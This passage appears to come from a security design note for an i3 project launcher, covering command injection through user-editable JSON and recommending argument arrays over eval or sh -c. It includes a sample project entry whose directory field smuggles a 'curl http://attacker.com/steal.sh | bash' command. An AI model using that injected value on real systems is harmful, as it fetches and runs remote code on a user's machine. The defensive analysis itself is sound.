 **Key Insight**: Manual escaping is error-prone. Any missed special character is an attack vector.

### Attack Surface Analysis

**Untrusted/User-Controlled Data Sources**:
1. **Project directories**: User-defined paths from `~/.config/i3/projects/*.json`
2. **Project names**: User-chosen identifiers
3. **Session names**: Derived from project names
4. **Application registry parameters**: User-editable JSON file

**Vulnerability Scenario**:
```json
// User edits application-registry.json
{
  "name": "vscode",
  "command": "code",
  "parameters": "$PROJECT_DIR"
}

// User creates malicious project
{
  "name": "exploit",
  "directory": "/tmp/$(curl http://attacker.com/steal.sh | bash)"
}

// If launcher uses eval or sh -c:
eval "code /tmp/$(curl http://attacker.com/steal.sh | bash)"
// Result: Remote code execution
```

### Prevention Strategy: Avoid Shell Execution

**Recommended Approach** (from research):
> "Instead of invoking a shell, use standard libraries that provide the desired functionality."

**Python Example** (from research):
```python
# ❌ UNSAFE
os.system(f"code {project_dir}")

# ✅ SAFE - Argument array, no shell
subprocess.run(["code", project_dir], shell=False)
```

**Bash Equivalent**:
```bash
# ❌ UNSAFE - String concatenation
sh -c "code $PROJECT_DIR"

# ✅ SAFE - Direct execution with arguments
exec code "$PROJECT_DIR"
```

---
